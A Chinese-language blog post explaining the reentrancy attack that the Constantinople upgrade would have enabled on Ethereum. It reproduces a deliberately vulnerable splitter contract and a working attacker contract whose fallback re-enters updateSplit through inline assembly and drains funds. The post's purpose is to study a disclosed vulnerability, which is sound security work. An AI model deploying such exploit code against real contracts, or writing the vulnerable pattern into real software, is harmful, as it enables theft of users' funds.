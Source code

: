 ```yaml
---
layout: post
title: "Ethereum Constantinople Reentrancy Attack"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

### 前情简介

以太坊预计在 [1080000](https://amberdata.io/blocks/7080000) 区块进行君士坦丁堡网络升级，升级内容主要包含了 [EIP 145](https://eips.ethereum.org/EIPS/eip-145)、[EIP 1014](https://eips.ethereum.org/EIPS/eip-1014)、[EIP 1052](https://eips.ethereum.org/EIPS/eip-1052)、[EIP 1283](https://eips.ethereum.org/EIPS/eip-1283) 和 [EIP 1234](https://eips.ethereum.org/EIPS/eip-1234)，但就在升级的前一天，[ChainSecurity](https://medium.com/chainsecurity/constantinople-enables-new-reentrancy-attack-ace4088297d9) 爆出此次升级可能会导致主网上的合约遭受重入攻击。

### 攻击分析

ChainSecurity 示例中被攻击合约如下

```solidity
pragma solidity ^0.5.0;

contract PaymentSharer {
  mapping(uint => uint) splits;
  mapping(uint => uint) deposits;
  mapping(uint => address payable) first;
  mapping(uint => address payable) second;

  function init(uint id, address payable _first, address payable _second) public {
    require(first[id] == address(0) && second[id] == address(0));
    require(first[id] == address(0) && second[id] == address(0));
    first[id] = _first;
    second[id] = _second;
  }

  function deposit(uint id) public payable {
    deposits[id] += msg.value;  // 1.
  }

  function updateSplit(uint id, uint split) public {
    require(split <= 100);
    splits[id] = split;
  }

  function splitFunds(uint id) public {
    // Here would be: 
    // Signatures that both parties agree with this split

    // Split
    address payable a = first[id];
    address payable b = second[id];
    uint depo = deposits[id];
    deposits[id] = 0;

    a.transfer(depo * splits[id] / 100);          // 2.
    b.transfer(depo * (100 - splits[id]) / 100);  // 5.
  }
}
```

攻击合约如下

```solidity
pragma solidity ^0.5.0;

import "./PaymentSharer.sol";

contract Attacker {
  address private victim;
  address payable owner;

  constructor() public {
    owner = msg.sender;
  }

  function attack(address a) external {
    victim = a;
    PaymentSharer x = PaymentSharer(a);
    x.updateSplit(0, 100);
    x.splitFunds(0);
  }

  function () payable external {  // 3.
    address x = victim;
    assembly{
        mstore(0x80, 0xc3b18fb600000000000000000000000000000000000000000000000000000000)
        pop(call(10000, x, 0, 0x80, 0x44, 0, 0))  // 4.
    }    
  }

  function drain() external {
    owner.transfer(address(this).balance);
  }
}
```

1. 首先攻击者调用 `deposit` 发送一定数量的 ETH 给被攻击合约
2. 接着调用 `attack` 方法，将所有资金发送给攻击者的地址
3. 由于攻击者是一个合约地址，因此 fallback 方法被触发
4. fallback 方法重新触发 updateSplit 并将 splits[id] 值更改为 0
5. 此时继续执行第二笔转账就会导致合约资金被盗取

> 流程可以参考[下图](https://pbs.twimg.com/media/DxDAzLdXcAAAzib.png:large)

![constantinople reentrancy attack](https://pbs.twimg.com/media/DxDAzLdXcAAAzib.png:large)

之所以攻击更够生效，是因为 `transfer` 方法默认指定 2300 gas，而 `mstore` 操作在此次网络升级之前消耗的 gas 超过 2300，而在此次网络更新之后降低为 200 gas，这就导致了 mstore 能够成功执行。

#### inline assembly code

> call(g, a, v, in, insize, out, outsize)  
> *call contract at address a with input mem[in…(in+insize)) providing g gas and v wei and output area mem[out…(out+outsize)) returning 0 on error (eg. out of gas) and 1 on success*

最后我们来分析一下这段汇编代码做了什么，首先通过 `web3.utils.sha3("updateSplit(uint256,uint256)")` 计算并获取方法签名的前**4**个字节(c3b18fb6)，接着我们将该方法签名补齐32字节并存储 0x80 地址，然后通过 `call` 调用，`call` 的参数解释如下，指定花费 gas 10000，被攻击者合约地址 x，方法和参数起始地址 0x80，参数的长度 0x44(即 68 bytes = 4 method sign bytes + 32 bytes uint256, 32 bytes uint256)，输入值的起始地址 0，输出值的长度 0，最后把 `call` 返回值从栈中移除。


[*ethereum-constantinople-upgrade-announcement*](https://blog.ethereum.org/2019/01/11/ethereum-constantinople-upgrade-announcement/)  
[*security-alert-ethereum-constantinople-postponement*](https://blog.ethereum.org/2019/01/15/security-alert-ethereum-constantinople-postponement/)  
[*Constantinople enables new Reentrancy Attack*](https://medium.com/chainsecurity/constantinople-enables-new-reentrancy-attack-ace4088297d9)  
[*Solidity Assembly*](https://solidity.readthedocs.io/en/v0.5.2/assembly.html)